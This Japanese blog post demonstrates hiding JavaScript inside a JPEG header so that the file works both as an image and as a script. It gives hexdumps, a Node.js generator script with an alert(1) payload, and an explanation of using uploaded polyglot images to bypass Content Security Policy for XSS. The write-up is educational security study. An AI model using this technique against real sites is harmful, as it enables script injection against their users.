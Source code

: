 ```yaml
---
title: JPEG画像にJavaScriptのコードを埋め込んでみる
date: 2020-02-14
description: JPEG画像にJavaScriptのコードを埋め込んでみる
tags: ['セキュリティ']
---
```

JPEG画像にJavaScriptのコードを埋め込む手法が紹介されていたので試してみました。  
今回は次の画像に対してコードの埋め込んでみます。

![埋め込み画像](donarudo.jpg)

## 注意

この記事は攻撃方法を知ることでセキュリティを学ぶことを前提としており、実験も仮想環境上で実行しています。  
決して外部サイトに対して実行しないようにしてください。

## 画像のバイナリを見てみる

今回試す方法は画像のバイナリを変更してコードを埋め込んでいます。  
そこで、最初は画像のバイナリを確認してみます。

```shell
$ hexdump -C donarudo.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 00 00 01  |......JFIF......|
00000010  00 01 00 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |.......lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|

$ hexdump -C donarudo.jpg | tail -n 3
000038f0  99 e8 80 e7 8a 5a 68 a7  57 de a3 e7 02 8a 28 a6  |.....Zh.W.....(.|
00003900  01 45 14 50 01 45 14 50  07 ff d9                 |.E.P.E.P...|
0000390b
```

先頭の2バイト **FF D8** はSOIマーカーと呼ばれ、JPEGフォーマットの開始を表しています。  
次の2バイト **FF E0** はセグメントの種類を表しており、次の2バイトの **00 10** がセグメントの長さを示していて
10進数で 16 なので、**00 10** を含む16バイト分（**FF E1** の手前まで) がセグメントであるのが分かります。  
最後の **FF D9** はEOIマーカーと呼ばれ、JPEGフォーマットの終了を表しています。

今回はこのセグメント内に `alert(1)` のjsコードを埋め込んでいきます。16進数のバイナリ表現は次のように取得できます。

```javascript
$ node
> 'alert(1);'.split('').map(i => i.charCodeAt(0).toString(16)).join('')
'616c6572742831293b'
```

## jsコードを埋め込む

↓がバイナリを変更して、jsコードを埋め込んでみた様子です。  

```shell
$ hexdump -C donarudo_01.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 61 6c 65 72 74  |......JFIF.alert|
00000010  28 31 29 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |(1)....lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|
```

このままjsのコードとして読み込んでも、無効な文字列を含んでおりjsの読み込みでエラーが発生します。  
jsは `/*....*/` で囲む事でコメントとしてコードを無視することが出来るので、それを利用して画像データの部分をコメントアウトして、jsとして有効なコードであるように偽装する事が可能です。

```shell
$ hexdump -C bad-donarudo.jpg | head -n 6
00000000  ff d8 ff e0 2f 2a 4a 46  49 46 00 01 01 00 00 01  |..../*JFIF......|
00000010  00 01 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002f20  2a 2f 3d 61 6c 65 72 74  28 31 29 3b 2f 2a ff e1  |*/=alert(1);/*..|
00002f30  00 6c 45 78 69 66 00 00  49 49 2a 00 08 00 00 00  |.lExif..II*.....|

$ hexdump -C bad-donarudo.jpg | tail -n 3
00006810  68 a7 57 de a3 e7 02 8a  28 a6 01 45 14 50 01 45  |h.W.....(..E.P.E|
00006820  14 50 07 ff d9 2a 2f ff  d9                       |.P...*/..|
00006829
```

実際にコメントアウトの対応をしてjsコードを埋め込んだ画像のバイナリがこんな感じです。

先頭の4バイト **FF D8 FF E0** は有効な非ASCII文字のJavaScript変数になります。次の **2F 2A** がセグメントの始まりで、セグメントの部分を `/*.../*` でコメントアウトしています。 次に、`=` を差し込み変数代入とすることで、先頭の4バイトを変数として扱い有効な文字列としています。続いて `alert(1);` を実行コードとして差し込んでいます。その後、`/*...*/` で残りのJEPG画像データの部分をコメントアウトしています。

また、セグメント開始の **2F 2A** はセグメント長を表現しており、10進数で 12074 なので、セグメント長を合わせるために、12074 - 16 - 14 = 12044バイト をヌルバイト（**00**）で埋めています。

本来のセグメント部分:  
`2F 2A 4A 46 49 46 00 01 01 00 00 01 00 00 00 10 00 01` の16バイト  

埋め込みjsコード部分:  
`*/alert(1);/*` => `2a2f3d616c6572742831293b2f2a` 14バイト

有効なjsコードの部分だけを表現すると次のようになります。

```js
<有効な非アスキー文字>=alert(1);
```

このjsコードの埋め込みは次のプログラムで実現できます。

```js
const fs = require('fs');

const image = fs.readFileSync('donarudo.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(12044).fill('00').join('');
const code = `*/=alert(1);/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('bad-donarudo.jpg', hexBinary);
```

## JPEG画像を読み込んでみる

jsを埋め込んだ画像を読み込んでみます。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <img src="bad-donarudo.jpg"/>
    <script src="bad-donarudo.jpg"></script>
</body>
</html>
```

![JavaScriptを埋め込んだ画像](donarudo-xss.png)

正常に画像は表示されて、jsファイルとしても読み込む事ができました！  
Chromeでは対策済みでアラートが表示されず、IE11でアラートの表示が確認できました。

実現可能なブラウザは限られますが、日本国内ではまだまだIE11の利用ユーザーは多いので無視できない手法です。

## 攻撃の使われ方

これで簡単にXSSが出来るのかなと思ったのですが、<img>タグで読み込んだ場合はあくまで画像として処理されるので、コードが実行されることはありません。  
あくまで、攻撃対象のサイト上で \<script>タグで画像を読み込ませる必要があります。  

ではこの手法がどのような攻撃に利用されるかというと、**[コンテンツセキュリティポリシー（CSP）](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)のバイパス** に利用されます。  
CSPが有効になっているWebサイトでは別ドメインからのjsファイルの読み込みやインラインスクリプトの実行がブロックされます。そのため、\<script>タグを埋め込む事ができてもXSSを防ぐ事が可能になります。

しかし、Webサイトに画像アップロードが機能があった場合に、jsコードを埋め込んだ画像をアップロードして、その画像を読み込むように\<script>タグを埋め込むめば、CSPのセキュリティをくぐり抜けてxssを実現することが可能になります。

```html
<!-- Webサーバーに配置されている自分がアップロードしたjsコードを埋め込んだJPEG画像 -->
<script src="/public/images/xss.jpg"></script>
```


最近はS3などにアップロードした画像が配置されるパターンが多く、その場合は画像読み込みがCSPのポリシー対象である外部ドメインとなるので、利用できる状況はかなり限定的なのかな？と思います。

## 参考文献
* [Hiding JavaScript in Picture Files for XSS](https://www.youtube.com/watch?v=memPcI94YGA)
* [Hiding JS in a JPEG header.](https://medium.com/@codedbrain/hiding-js-in-a-jpeg-header-454386f9e20)
* [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
* [Content Security Policyについて語る](http://www.nowhere.co.jp/blog/archives/20190315-080010.html)
* [JPEGファイルの構造](https://hp.vector.co.jp/authors/VA032610/JPEGFormat/StructureOfJPEG.htm)
